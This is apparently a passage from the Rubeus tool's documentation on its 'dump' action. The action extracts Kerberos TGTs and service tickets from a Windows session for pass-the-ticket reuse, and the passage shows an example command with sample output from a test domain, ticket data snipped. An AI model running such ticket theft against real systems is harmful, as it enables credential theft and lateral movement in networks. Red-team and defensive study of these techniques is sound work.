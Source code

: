 The **dump** action will extract current TGTs and service tickets if in an elevated context. If not elevated, service tickets for the current user are extracted. The resulting extracted tickets can be filtered by `/service` (use `/service:krbtgt` for TGTs) and/or logon ID (the `/luid:0xA..` parameter). The KRB-CRED files (.kirbis) are output as base64 blobs and can be reused with the ptt function, or Mimikatz's **kerberos::ptt** functionality.

**Note:** if run from a _non-elevated_ context, the session keys for TGTs are not returned (by default) from the associated APIs, so only service tickets extracted will be usable. If you want to (somewhat) workaround this, use the **tgtdeleg** command.

Extracting the current user's usable service tickets:

    C:\Rubeus>Rubeus.exe dump

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.4



    [*] Action: Dump Kerberos Ticket Data (Current User)

    [*] Current LUID    : 0x4420e

    [*] Returned 3 tickets

    ServiceName              : krbtgt/TESTLAB.LOCAL
    TargetName               : krbtgt/TESTLAB.LOCAL
    ClientName               : harmj0y
    DomainName               : TESTLAB.LOCAL
    TargetDomainName         : TESTLAB.LOCAL
    AltTargetDomainName      : TESTLAB.LOCAL
    SessionKeyType           : rc4_hmac
    Base64SessionKey         : AAAAAAAAAAAAAAAAAAAAAA==
    KeyExpirationTime        : 12/31/1600 4:00:00 PM
    TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
    StartTime                : 2/11/2019 3:19:15 PM
    EndTime                  : 2/11/2019 8:19:13 PM
    RenewUntil               : 2/18/2019 3:19:13 PM
    TimeSkew                 : 0
    EncodedTicketSize        : 1306
    Base64EncodedTicket      :

        doIFFjCCBRKgAwIBBaEDAgEWoo...(snip)...

    ...(snip)...



    [*] Enumerated 3 total tickets
    [*] Extracted  3 total tickets
